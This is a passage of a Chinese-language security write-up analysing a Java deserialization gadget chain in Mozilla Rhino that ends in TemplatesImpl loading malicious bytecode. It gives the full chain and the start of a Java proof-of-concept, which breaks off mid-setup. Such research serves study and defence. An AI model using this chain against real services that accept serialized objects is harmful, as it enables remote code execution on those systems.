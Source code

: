 
作者最终找到的是`NativeJavaObject`类，继承了`Scriptable, Wrapper, Serializable`三个类，满足了进入`unwrap()`的条件，并且这个`unwrap()`方法直接返回`javaObject`，`javaObject`也由`transient`修饰，但是在`NativeJavaObject`类中自定义了`read/writeObject()`能够保存`javaObject`

[![](assets/1706145875-b76963af5b785597caf789946c5da9f6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122223404-4a9d7f34-b933-1.png)

至此整条链就形成了，通过`NativeError#toString()`触发`NativeJavaMethod#call()`，通过`NativeJavaObject#unwrap()`返回`TemplatesImpl`对象控制`javaObject`最终利用`MemberBox#invoke()`反射执行恶意类。

Gadgets 如下：

```plain
BadAttributeValueExpException.readObject()
    NativeError.toString()
        ScriptableObject.getProperty()
            ScriptableObject.getImpl()
                NativeJavaMethod.call()
                    NativeJavaObject.unwrap()
                        MemberBox.invoke()
                            TemplatesImpl.newTransformer()
```

poc 如下：

```plain
package com.example.rhino;

import com.caucho.quercus.annotation.Construct;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.CannotCompileException;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.NotFoundException;
import org.mozilla.javascript.*;

import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.Base64;

public class Rhino1 {
    public static void main(String[] args) throws Exception {
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{getTemplates()});
        setFieldValue(templates, "_name", "aiwin");
        setFieldValue(templates, "_tfactory", null);
        Class<?> NativeErrorClass=Class.forName("org.mozilla.javascript.NativeError");
        Constructor<?> constructor=NativeErrorClass.getDeclaredConstructor();
        constructor.setAccessible(true);
        Scriptable NativeError= (Scriptable) constructor.newInstance();


        //初始化javaObject,使unwrap()返回TemplatesImpl对象,同时完整初始化为了满足initMembers()不报错
        Context context          = Context.enter();
        NativeObject scriptableObject = (NativeObject) context.initStandardObjects(); //设置一个JavaScript环境
        NativeJavaObject nativeJavaObject=new NativeJavaObject(scriptableObject,templates,TemplatesImpl.class);
```